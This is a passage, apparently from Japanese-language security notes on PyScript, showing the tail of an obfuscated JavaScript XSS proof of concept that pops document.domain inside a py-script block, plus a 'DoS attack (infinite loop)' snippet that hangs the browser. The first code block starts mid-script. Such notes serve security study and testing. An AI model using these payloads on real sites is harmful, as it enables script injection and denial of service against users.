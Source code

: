 ```html
if (_0x168170 === _0x98a567) break
else _0x454121["push"](_0x454121["shift"]())
} catch (_0x5baa73) {
_0x454121["push"](_0x454121["shift"]())
}
}
})(_0x599c, 0x28895),
prompt(document[_0x3675bf(0xa0)])
function _0x599c() {
var _0x34a15f = [
"15170376Sgmhnu",
"589203pPKatg",
"11BaafMZ",
"445905MAsUXq",
"432bhVZQo",
"14792bfmdlY",
"4FKyEje",
"92890jvCozd",
"36031bizdfX",
"114QrRNWp",
"domain",
"3249220MUVofX",
"18cpppdr",
]
_0x599c = function () {
return _0x34a15f
}
return _0x599c()
}
</script>
"")
</py-script>
```
![](https://user-images.githubusercontent.com/66295316/166848442-2aece7aa-47b5-4ee7-8d1d-0bf981ba57b8.png)

### DoS攻撃（無限ループ）

コード:
```html
<py-script>
while True:
print("&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;")
</py-script>
```
![](https://user-images.githubusercontent.com/66295316/166848534-3e76b233-a95d-4cab-bb2c-42dbd764fefa.png)

---

## 新しい脆弱性と技術 (2023-2025)
